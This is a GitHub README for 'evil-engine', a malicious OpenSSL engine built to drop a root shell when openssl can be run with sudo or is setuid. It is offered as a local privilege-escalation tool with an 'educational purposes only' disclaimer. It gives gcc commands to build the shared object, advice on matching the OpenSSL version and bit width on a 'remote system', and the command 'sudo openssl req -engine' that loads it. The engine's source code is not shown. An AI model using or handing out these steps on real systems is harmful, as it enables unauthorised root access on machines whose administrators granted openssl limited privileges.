 # evil-engine
Evil openSSL engine that drops a root shell when openssl can either be executed with sudo or is saved with setuid.
Can be used for local privilege escalation 

In some rare cases, administrators allow a local user to run openssl with root level privileges, this engine allows you get a root shell.

***For educational purposes only***


## Dependencies
- openssl header files

**Note**
There could be some version dependencies so make sure you use the same openssl version (engine.h).  
Also make sure to compile for 32 or 64 bit, depending on the openssl version running on the remote system.

To configure openssl for 32 bit on a 64 bit system use:
```
setarch i386 ./config -m32
```

Then use gcc -m32 to compile this evil-engine for 32 bit Linux in the following commands:

## Create the engine

```
# Compile: 
gcc -fPIC -o evil-engine.o -c evil-engine.c
# Create shared object file:
gcc -shared -o evil-engine.so -lcrypto evil-engine.o
```
## Use with openssl
```
sudo openssl req -engine $(pwd)/evil-engine.so
```

## Demo
![](evil-engine.png)